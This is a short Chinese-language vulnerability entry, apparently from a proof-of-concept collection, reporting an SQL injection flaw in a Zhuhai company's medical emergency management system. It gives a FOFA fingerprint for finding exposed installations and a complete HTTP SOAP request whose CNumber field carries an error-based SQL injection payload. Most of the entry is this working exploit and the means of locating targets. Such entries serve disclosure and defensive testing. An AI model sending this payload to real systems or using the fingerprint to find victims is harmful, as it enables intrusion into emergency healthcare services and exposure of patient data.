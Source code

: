 # 珠海市安克电子技术有限公司医疗急救管理系统存在SQL注入漏洞
珠海市安克电子技术有限公司成立于1992年，专业从事急救信息化系统集成与软件开发，是国内领先的院前急救信息系统供应商。在北京、合肥、西安设有研发中心，在全国设有分支机构和服务网点20个，具有ISO9000等质量体系、高新技术企业、软件企业、信息系统集成等多项认证资质<font style="color:rgb(102, 102, 102);">，</font>珠海市安克电子技术有限公司医疗急救管理系统存在SQL注入漏洞。

## fofa
```javascript
fid="v6Cd4x0Px/YZrVqV3jQ3xQ=="
```

![](https://cdn.nlark.com/yuque/0/2024/png/21711125/1730787843764-4e1b3e61-0356-40a1-8d4e-f1bd5d92cf5a.png)

## poc
```java
POST /api/Service.asmx HTTP/1.1
X-Requested-With: XMLHttpRequest
Cookie: ASP.NET_SessionId=exrktu3aplxg004tcc2ntnuw; FailCount=5; ASPSESSIONIDSSDTSCDA=OLGBFHMCDJBLGKGENPLEECCO
SOAPAction: http://tempuri.org/GetAmbulance
Content-Type: text/xml
Content-Length: 296
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)
Host: 
Connection: Keep-alive

<?xml version="1.0"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/">
	<soap:Header />
	<soap:Body>
		<tns:GetAmbulance>
			<tns:CNumber>11' AND 6537 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(98)+CHAR(118)+CHAR(113)+(SELECT (CASE WHEN (6537=6537) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(118)+CHAR(118)+CHAR(113)))-- ntgj</tns:CNumber>
		</tns:GetAmbulance>
	</soap:Body>
</soap:Envelope>
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731332070574-8670e58d-e01a-42eb-a55c-c5afe4928fdc.png)




